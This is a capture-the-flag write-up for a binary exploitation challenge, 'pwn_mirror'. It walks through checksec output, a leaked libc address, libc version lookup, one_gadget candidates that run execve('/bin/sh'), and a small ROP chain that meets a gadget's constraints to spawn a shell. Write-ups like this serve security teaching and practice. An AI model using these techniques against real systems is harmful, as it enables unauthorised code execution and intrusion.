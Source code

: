 ## pwn_mirror
Running a checksec : 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```
The addresses are randomized

"Talking" to the mirror gives us a memory leak
```
Do you want to talk to the mirror? (y/n)
> y
Your answer was: y
"This is a gift from the craftsman.. [0x7ffc579a04e0] [0x7f753b204470]"
Now you can talk to the mirror.
> 

```

The second one is the address of IO_printf
Now we can identify the libc version using [libc database search](https://libc.nullbyte.cat) and we can calculate our offsets
On my computer is 2.30 on the server it was 2.27.

In order to get a shell I will use one_gadget
```
one_gadget libc6_2.27-3ubuntu1.3_amd64.so --level 1 (to get all possible gadgets)

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```
Sadly, by default the binary does not meet the conditions of any gadget. But, I will adjust the registers using a ROPchain. I will search for gadgets in the libc because I already have the IO_printf address.
The ropchain is as following :
```
mov RDX, RAX % RAX is already null
POP RCX % RCX becomes null by placing a \x00*8 on the stack
```
```
objdump -D -Mintel libc6_2.27-3ubuntu1.3_amd64.so
...
14148d:       48 89 c2                mov    rdx,rax
...
34da3 : pop rcx ; ret

```

Now I can use the 0xe5622 gadget and spawn a shell
